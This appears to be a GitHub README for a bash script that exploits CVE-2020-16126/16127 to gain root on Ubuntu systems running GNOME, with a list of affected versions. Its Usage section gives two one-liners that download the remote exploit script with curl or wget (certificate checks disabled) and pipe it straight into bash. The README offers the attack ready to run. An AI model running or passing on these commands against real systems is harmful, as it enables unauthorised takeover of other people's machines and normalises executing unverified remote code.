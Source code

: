 # Ubuntu-Gnome-privilege-escalation
A bash script exploit of [CVE-2020-16126/CVE-2020-16127] to achieve privilege escalation.

一个可以方便实现Ubuntu本地提权的bash脚本（利用CVE-2020-16126/CVE-2020-16127漏洞），要求处于Gnome环境。

## Affect version
Ubuntu 20.04.1\20.10\18.04\16.04 LTS and so on

## Usage
`curl https://raw.githubusercontent.com/zev3n/Ubuntu-Gnome-privilege-escalation/main/CVE-2020-1612%5B6_7%5D_exploit.sh | bash`

or (If you have No permissions to install 'curl',you could try...)

`wget -q -O - --no-check-certificate https://raw.githubusercontent.com/zev3n/Ubuntu-Gnome-privilege-escalation/main/CVE-2020-1612%5B6_7%5D_exploit.sh | bash`

## Demonstration
TODO

## Reference
https://securitylab.github.com/advisories/GHSL-2020-187-accountsservice-drop-privs-DOS
